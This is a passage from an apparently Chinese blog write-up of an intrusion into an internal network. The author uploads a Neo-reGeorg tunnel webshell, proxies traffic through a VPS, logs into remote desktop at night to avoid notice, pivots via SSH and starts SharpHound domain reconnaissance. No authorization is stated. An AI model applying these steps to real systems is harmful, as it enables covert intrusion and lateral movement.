 reGeorg 是 reDuh 的升级版。主要把内网服务器的端口通过http或https隧道转发到本机。

项目地址：https://github.com/L-codes/Neo-reGeorg

先设置密码，生成 tunnel 的 webshell，并上传到目标服务器：

  * 

    
    
    python neoreg.py generate -k pass

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121910.png)

这个时候直接 VPS 运行，把目标内网流量通过 http 转发到 VPS 的 1080 端口：  

  * 

    
    
    python neoreg.py -k pass -u http://saulgoodman.cn//wls-wsat/tuu.jsp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121912.png)

然后本地 VPS 代理：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121913.png)

说明代理成功了！记住这里是 127.0.0.1 只能本地代理，客户端代理你服务器的 socks 是代理不上的！为了方便我在我再 Windows
上重新代理了一下，方便后续操作！

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121914.png)

这个时候就可以进目标内网了，由于当前目标机器时间是凌晨，且确定没有人在用远程桌面，我直接登陆目标远程桌面：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121915.png)

然后对目标桌面上进行信息搜集发现有 SSH 登陆：  

![]()

成功又拿下内网其他机器：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121916.png)  
然后换个用户登陆到 200 这台机器：（发现有大哥扫描过了，资产还挺多）  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121917.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121919.png)

发现应该都是 docker，没啥价值！资产收集的差不多了该搜集域内的了！

  

 **SharpHound 对域内进行信息搜集**

  

通过 SharpHound 对域内进行信息搜集：

  * 
